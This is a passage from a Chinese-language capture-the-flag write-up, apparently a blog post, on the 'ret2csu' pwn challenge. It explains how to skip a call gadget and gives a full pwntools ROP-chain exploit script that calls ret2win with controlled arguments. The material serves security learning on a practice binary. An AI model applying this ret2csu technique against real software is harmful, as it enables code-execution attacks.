 我们只需要将r12赋值为0x4003b0，就能够完美跳过这个call并毫发无损地返回，也就有了修正第一个参数的机会。注意：此时我们会多pop掉7个参数，因此要在栈中加7个无效数。

payload:

```python
from pwn import *

io = process('./ret2csu')
elf = ELF('./ret2csu')
lib = ELF('./libret2csu.so')

ROP_1 = 0x40069a
ROP_2 = 0x400680
rdi = 0x4006a3
call = 0x400689

payload = cyclic(40)
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)		# pop the first argument
payload += p64(ROP_1)
payload += p64(0) + p64(1) + p64(0x4003B0) + p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(ROP_2)
payload += p64(0) * 7
payload += p64(rdi) + p64(0xdeadbeefdeadbeef) 
payload += p64(elf.plt['ret2win'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

![](https://img-blog.csdnimg.cn/32a654e812b34273ae0f8775c5dc5c39.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATDNIX0NvTGlu,size_20,color_FFFFFF,t_70,g_se,x_16)
由此可见，在做题的过程中，转换思路很重要。一条指令可以有用，也可以无用。可能需要精心构造进入，也可能需要精心构造绕过。全方位思考，整合程序中的所有资源为己所用，方能在pwn的世界纵横捭阖，左右逢源。要学的东西，还有很多......
